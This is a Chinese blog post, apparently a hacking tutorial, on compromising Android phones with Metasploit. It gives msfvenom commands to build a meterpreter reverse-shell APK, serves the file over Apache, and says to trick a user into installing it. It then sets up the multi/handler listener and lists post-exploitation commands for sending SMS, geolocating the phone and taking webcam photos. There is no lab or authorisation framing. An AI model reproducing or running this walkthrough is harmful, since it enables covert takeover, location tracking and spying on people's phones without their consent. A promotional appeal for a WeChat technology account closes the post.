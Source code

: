 ```yaml
---
layout: post
category: curleyg-code-hack
title: 使用Metasploit渗透Android系统
tagline: by CurleyG
tag: [hack,curleyg-code-hack]
excerpt: 使用Metasploit渗透Android系统
lock: need
---
```


# 使用Metasploit渗透Android系统

可以创建一个新的APK文件，也可以将攻击载荷注入到一个现有的APK文件来攻击Android平台，这里我们使用第一种方法。

## 创建APK文件 

```bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.175.128 LPORT=4444 R > /var/www/html/test.apk
```

## 启动Apache服务

```bash
service apache2 start
```

## 诱导用户下载安装APK

这一步，我们诱导用户下载并安装这个APK文件。

## 实施攻击

```bash
msfconsole
use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set LHOST 192.168.175.128
set LPORT 4444
exploit
```

到此，只要用户下载安装了我们的test.apk文件，我们就会获取到Meterpreter权限。

## 后渗透测试

在我们获取了目标Android手机的Meterpreter权限之后，我们可以执行如下命令进行后渗透攻击

**注意：如下命令都是在meterpreter命令行下执行的。**

## 查看手机是否root过

```bash
check_root
```

## 发送短信

```bash
send_sms -d 某个手机号码 -t "hello"
```

## 查看系统信息

```bash
sysinfo
```

## 对手机进行定位

```bash
wlan_geolocate
```

此命令会输出手机的经纬度，我们根据这个经纬度就可以知道手机的具体位置。

## 使用手机摄像头拍照

```bash
webcam_snap
```


## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)
